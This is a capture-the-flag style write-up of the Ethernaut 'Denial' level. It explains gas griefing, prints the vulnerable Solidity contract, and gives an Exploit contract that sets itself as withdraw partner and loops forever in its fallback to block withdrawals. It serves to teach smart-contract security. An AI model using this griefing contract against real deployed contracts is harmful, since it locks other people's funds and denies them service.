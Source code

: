 # Ethernaut 20: Denial - understanding griefing

If we do not add a gaslimit, our calls to external functions can be griefed - meaning smart contracts can be blocked.

## The Task Intro

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern)
pattern to avoid reentrancy attacks, there can be other circumstances
(such as multiple external calls at the end of a function) where issues
such as this can arise.

_Note_ : An external `CALL` can use at most 63/64 of the gas currently available
at the time of the `CALL`. Thus, depending on how much gas
is required to
complete a transaction, a transaction of sufficiently high gas (i.e. one
such
that 1/64 of the gas is capable of completing the remaining opcodes in
the parent call) can be used to mitigate this particular attack.

## The Task Code

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## The Solution

The withdraw function above uses `partner.call{value:amountToSend}("");`which does not specify a gas limit like `partner.call{value:amountToSend, gas: someGas}("");`. Therefore the contract can be griefed - a denial of service attack can be executed with the simple code below:

```apache
contract Exploit {
    Denial den;

    constructor (Denial _den){
        den = _den;
        den.setWithdrawPartner(address(this));
    }

    fallback() external payable {
        //assert and revert does not work with a low level code!
        //while will break
        while(true){

        }
    }
}
```
